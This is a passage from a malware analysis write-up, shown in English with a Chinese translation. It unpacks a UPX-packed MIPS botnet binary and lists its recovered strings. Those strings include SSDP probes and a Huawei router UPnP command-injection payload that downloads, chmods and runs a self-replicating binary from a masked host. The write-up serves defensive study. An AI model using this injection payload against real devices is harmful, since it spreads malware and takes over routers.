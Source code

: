 ```
        00107ece 00              ??         00h
        00107ecf 24 49 6e        ds         "$Info: This file is packed with the UPX executable packer http://upx.sf.net
                 66 6f 3a
                 20 54 68
        00107f1e 24 49 64        ds         "$Id: UPX 3.94 Copyright (C) 1996-2017 the UPX Team. All rights reserved
                 3a 20 55
                 50 58 20
        00107f6a 90              ??         90h
        00107f6b 90              ??         90h



```

This segment stood out indicating that it's an embedded ELF binary that has been packed with [UPX](https://github.com/upx/upx?ref=nishtahir.com). Some quick research indicated that it's often misused by malware authors to obfuscate and compress their binaries. As long as the malware author didn't modify the UPX header or packed binary, we should be able to use UPX to unpack the binary.  
这一部分脱颖而出，表明它是一个嵌入式 ELF 二进制文件，已与 UPX 打包在一起。一些快速研究表明，恶意软件作者经常滥用它来混淆和压缩他们的二进制文件。只要恶意软件作者没有修改 UPX 标头或打包的二进制文件，我们就应该能够使用 UPX 来解压缩二进制文件。

```
root:~# upx -d mips
                       Ultimate Packer for eXecutables
                          Copyright (C) 1996 - 2018
UPX 3.95        Markus Oberhumer, Laszlo Molnar & John Reiser   Aug 26th 2018

        File size         Ratio      Format      Name
   --------------------   ------   -----------   -----------
     93732 <-     34932   37.27%   linux/mips    mips


```

Success! We now have a lot more strings we can look at this time, which sheds a bit more light on what the malware was intended to do.  
成功！现在，我们有更多的字符串可以查看，这更清楚地说明了恶意软件的意图。

```
\x%02x
SNQUERY: xxx.xxx.xxx.xxx:AAAAAA:xsvr
M-SEARCH * HTTP/1.1
HOST: xxx.xxx.xxx.xxx:1900
MAN: "ssdp:discover"
MX: 1
ST: urn:dial-multiscreen-org:service:dial:1
USER-AGENT: Google Chrome/60.0.3112.90 Windows


service:service-agent
 default
local
    TeamSpeak

Windows XP
nickname
<?xml version="1.0" ?><s:Envelope xmlns:s="http://schemas.xmlsoap.org/soap/envelope/" s:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"><s:Body><u:Upgrade xmlns:u="urn:schemas-upnp-org:service:WANPPPConnection:1"><NewStatusURL>$(/bin/busybox wget -g xxx.xxx.xxx.xxx -l /tmp/.oxy -r /yeye/yeye.mips; /bin/busybox chmod 777 /tmp/.oxy; /tmp/.oxy selfrep.huawei)</NewStatusURL><NewDownloadURL>$(echo HUAWEIUPNP)</NewDownloadURL></u:Upgrade></s:Body></s:Envelope>
POST /ctrlt/DeviceUpgrade_1 HTTP/1.1
Connection: keep-alive
```